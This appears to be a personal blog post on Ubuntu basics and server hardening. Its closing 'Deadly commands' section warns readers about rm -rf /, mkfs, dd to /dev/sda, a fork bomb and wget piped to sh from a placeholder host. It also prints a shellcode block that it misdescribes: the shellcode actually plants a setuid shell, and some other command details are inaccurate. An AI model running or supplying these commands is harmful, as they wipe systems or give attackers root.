```yaml
---
layout: post
title: Linux basics
---
```


# Ubuntu Linux basics

Hey, want to learn some Linux commands? Me neither.

***
<hr class="rule">

## Looking around

List all with attributes and permissions

    ls -la

List files with size

    ls -h

***

## Moving around

Remove folder

    rm -r folder-name

Remove folder with no prompt. Be **Extremely** careful with the `rm -rf` command because you can wipe out the whole system with it. See the **Deadly commands**

    rm -rf folder-name

Rename folder or files

    mv old-name new-name

Move file somewhere else

    mv file-name /somewhere-else

Move folder somewhere else

    mv -R folder-name /somewhere-else

<hr class="rule">

***

# Server settings

Based on a typical [digitalocean](https://www.digitalocean.com/help/getting-started/setting-up-your-server/) Ubuntu droplet. There are also some good resources to look into at [Linode](https://www.linode.com/docs/security/securing-your-server), depending on how each is deployed.

***

## Add a new user with root privileges

Login as root and type:

    adduser newuser

Follow the prompt and create a strong password. Now add the new user to the sudo group.

    gpasswd -a newuser sudo

***

## Configure SSH Daemon

Modify the SSH daemon configuration (the program that allows remote login) to disallow remote SSH access to the root account.

Open the configuration file:

    nano /etc/ssh/sshd_config

Locate line:

    PermitRootLogin yes

Modify this line to:

    PermitRootLogin no

**Reload SSH**

    service ssh restart

***

## Configure Uncomplicated Firewall (ufw)

This sets up the bare minimum without SSL/TLS or SMTP opened. Full config docs from digitalocean is over [here](https://www.digitalocean.com/community/tutorials/how-to-setup-a-firewall-with-ufw-on-an-ubuntu-and-debian-cloud-server).

Create an exception for SSH connections so that we can maintain access for remote administration.

The SSH daemon runs on port 22 by default and `ufw` can implement a rule by name if the default has not been changed. So if you have not modified SSH port, you can enable the exception by typing:

    sudo ufw allow ssh

Allow only specific IP addresses if you want:

    sudo ufw allow from 192.168.255.255

Allow access to port 80 for a HTTP web server:

    sudo ufw allow 80/tcp

Review selections:

    sudo ufw show added

Enable firewall:

    sudo ufw enable

Check status:

    sudo ufw status verbose

***

# Deadly commands

Someday, some asshole on a forum my try to ruin your life by tricking you into using these commands. Take a hard look and remember them. **Never** run any of the following:

***

## Delete all files in the root directory

    rm -rf /

This freaks me out just to write it. This means force a deletion of everything in the root directory and all subfolders without prompt. So basically wiping your entire system in 5 lines of code.

There is "hidden" hex of this as well that looks like this.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00”
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;


## Reformat Data on device

    mkfs
    mkfs.ext3
    mkfs.anything

Whatever follows the mkfs command will be destroyed and replaced with a blank filesystem.

## Block device manipulation

    any_command > /dev/sda
    dd if=something of=/dev/sda

Watch out for `/dev/sda` These commands cause raw data to be written to a block device. Often this will clobber the filesystem and cause total loss of data.

Another similar command would be to drop all files into a black hole.

    mv ~ /dev/null

## Fork bomb

    :(){:|:&};:

This short line defines a shell function that creates new copies of itself until the system freezes, forcing a hard reset of the computer. Basically an internal DDOS attack.


## Malicious code in Shell scripts

    wget http://some_place/some_file -O- | sh

Or similarly

    wget http://some_place/some_file
    sh ./some_file

This may be trickier to spot as there are so many tools out there as package managers. Bottom line is don't execute a shell script from a fishy source. Mind the `-O- | sh` or `sh ./` commands.

***
